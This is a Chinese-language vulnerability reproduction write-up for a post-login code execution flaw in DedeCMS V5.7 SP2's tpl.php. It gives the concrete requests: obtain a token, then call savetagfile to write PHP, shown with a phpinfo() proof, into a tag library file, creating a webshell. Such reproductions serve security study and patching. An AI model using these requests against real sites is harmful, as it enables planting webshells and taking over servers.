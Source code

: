 # DedeCMS V5.7 SP2后台代码执行漏洞复现

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 漏洞描述

织梦内容管理系统(Dedecms)是一款PHP开源网站管理系统。Dedecms V5.7 SP2版本中的 tpl.php 中存在代码执行漏洞，可以通过该漏洞在增加新标签中上传木马，获取webshell。该漏洞利用需要登录后台,并且后台的账户权限是管理员权限。

## 漏洞影响

DedeCMS V5.7 SP2

## 漏洞复现

此漏洞位于后台，因此我们需要先登录到后台

默认后台地址 dede/ ，先按照网上已有的文章复现

先获取 token

```plain
http://www.dedecms521.com/dede/tpl.php?action=upload
```

得到 token

```plain
33980963afa91dcc6c2f1efceefc87b0
```

然后访问

```plain
http://www.dedecms521.com/dede/tpl.php?filename=secnote.lib.php&action=savetagfile&content=<?php phpinfo();?>&token=33980963afa91dcc6c2f1efceefc87b0
```

这时就已经写入了 webshell

```plain
http://www.dedecms521.com/include/taglib/secnote.lib.php
```

![img](https://gitee.com/N0puple/nopic/raw/master/img/image-20210626220121525.png)

## 总结

其实这个漏洞只是 dede 提供的一个文件管理的功能，但是被利用了，基本上只要进到后台，利用这个还是很容易getshell的。

该过程实际上就是

```plain
模板 -> 标签源码管理 -> 增加一个新的标签
```

然后填入自己的代码

```php
<?php phpinfo();?>
```

## 参考链接

- `https://wiki.bylibrary.cn/漏洞库/01-CMS漏洞/DedeCMS/DedeCMS V5.7 SP2后台存在代码执行漏洞/`



`github` 链接：`https://github.com/N0puple/vulPOC`

想要获取更多资讯，或者获取文中环境可以关注公众号 “安全漏洞复现”，回复 “漏洞环境”
